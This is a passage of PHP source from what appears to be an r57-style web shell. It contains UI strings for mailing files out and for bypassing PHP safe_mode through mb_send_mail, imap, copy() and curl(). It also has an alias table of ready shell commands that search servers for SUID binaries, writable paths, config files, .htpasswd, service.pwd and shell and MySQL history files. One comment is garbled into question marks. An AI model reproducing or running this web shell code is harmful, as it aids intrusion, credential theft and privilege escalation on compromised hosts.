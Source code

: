 'eng_text103'=&gt;'Send email',
'eng_text104'=&gt;'Send file to email',
'eng_text105'=&gt;'To',
'eng_text106'=&gt;'From',
'eng_text107'=&gt;'Subj',
'eng_butt15'=&gt;'Send',
'eng_text108'=&gt;'Mail',
'eng_text109'=&gt;'Hide',
'eng_text110'=&gt;'Show',
'eng_text111'=&gt;'SQL-Server : Port',
'eng_text112'=&gt;'Test bypass safe_mode with function mb_send_mail',
'eng_text113'=&gt;'Test bypass safe_mode, view dir list via imap_list',
'eng_text114'=&gt;'Test bypass safe_mode, view file contest via imap_body',
'eng_text777'=&gt;'bypass safemode with copy()',
'eng_text888'=&gt;'File name',
'eng_text7777'=&gt;'bypass safemode with curl()',
'eng_text8888'=&gt;'File name',
'eng_text999'=&gt;'bypass safemode with imap()',
'eng_text9999'=&gt;'File name',
'eng_text1010'=&gt;'bypass safemode with id()',
'eng_text101010'=&gt;'',
);
/*
?????? ??????
????????? ???????? ????????????? ?????? ????? ? ???-?? ??????. ( ??????? ????????? ???? ????????? ???? )
?? ?????? ???? ????????? ??? ???????? ???????.
*/
$aliases=array(
'find suid files'=&gt;'find / -type f -perm -04000 -ls',
'find suid files in current dir'=&gt;'find . -type f -perm -04000 -ls',
'find sgid files'=&gt;'find / -type f -perm -02000 -ls',
'find sgid files in current dir'=&gt;'find . -type f -perm -02000 -ls',
'find config.inc.php files'=&gt;'find / -type f -name config.inc.php',
'find config.inc.php files in current dir'=&gt;'find . -type f -name config.inc.php',
'find config* files'=&gt;'find / -type f -name "config*"',
'find config* files in current dir'=&gt;'find . -type f -name "config*"',
'find all writable files'=&gt;'find / -type f -perm -2 -ls',
'find all writable files in current dir'=&gt;'find . -type f -perm -2 -ls',
'find all writable directories'=&gt;'find /  -type d -perm -2 -ls',
'find all writable directories in current dir'=&gt;'find . -type d -perm -2 -ls',
'find all writable directories and files'=&gt;'find / -perm -2 -ls',
'find all writable directories and files in current dir'=&gt;'find . -perm -2 -ls',
'find all service.pwd files'=&gt;'find / -type f -name service.pwd',
'find service.pwd files in current dir'=&gt;'find . -type f -name service.pwd',
'find all .htpasswd files'=&gt;'find / -type f -name .htpasswd',
'find .htpasswd files in current dir'=&gt;'find . -type f -name .htpasswd',
'find all .bash_history files'=&gt;'find / -type f -name .bash_history',
'find .bash_history files in current dir'=&gt;'find . -type f -name .bash_history',
'find all .mysql_history files'=&gt;'find / -type f -name .mysql_history',
'find .mysql_history files in current dir'=&gt;'find . -type f -name .mysql_history',
'find all .fetchmailrc files'=&gt;'find / -type f -name .fetchmailrc',
'find .fetchmailrc files in current dir'=&gt;'find . -type f -name .fetchmailrc',
'list file attributes on a Linux second extended file system'=&gt;'lsattr -va',
'show opened ports'=&gt;'netstat -an | grep -i listen',
'----------------------------------------------------------------------------------------------------'=&gt;'ls -la'
);
$table_up1  = "&lt;tr&gt;&lt;td bgcolor=#cccccc&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;&lt;div align=center&gt;:: ";
$table_up2  = " ::&lt;/div&gt;&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;";
$table_up3  = "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#cccccc&gt;";
$table_end1 = "&lt;/td&gt;&lt;/tr&gt;";